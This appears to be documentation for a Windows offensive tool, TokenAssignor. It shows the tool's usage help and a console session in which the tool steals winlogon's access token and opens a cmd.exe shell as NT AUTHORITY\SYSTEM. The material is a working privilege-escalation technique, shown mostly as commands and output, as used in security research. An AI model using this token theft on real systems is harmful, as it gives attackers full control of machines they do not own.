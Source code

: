 ```
PS C:\Dev> .\TokenAssignor.exe

TokenAssignor - Tool to execute token assigned process.

Usage: TokenAssignor.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies a command to execute. Default is cmd.exe.
        -m, --method  : Specifies a method ID (0 - 3).
        -p, --pid     : Specifies a source PID for token stealing.

[!] -m option is required.
```

This tool tries to steal token from a specified process and execute a token assigned process.
Most of methods require administrative privileges.
To execute a token assigned process with `CreateProcessAsUser` API, set `-m` option to `0`:

```
PS C:\Dev> Get-Process winlogon

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    270      13     2452      10108       0.33    688   1 winlogon

PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 0

[+] SeDebugPrivilege is enabled successfully.
[+] SeImpersonatePrivilege is enabled successfully.
[+] Got a primary token from PID 688 (Handle = 0x68).
[+] Got a impersonation token from winlogon.exe (Handle = 0x2E0).
[+] Impersonation as winlogon.exe is successful.
[+] "C:\Windows\system32\cmd.exe" is executed successfully (PID = 9552).
[*] User of the created process is NT AUTHORITY\SYSTEM (SID: S-1-5-18)
Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Dev>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```
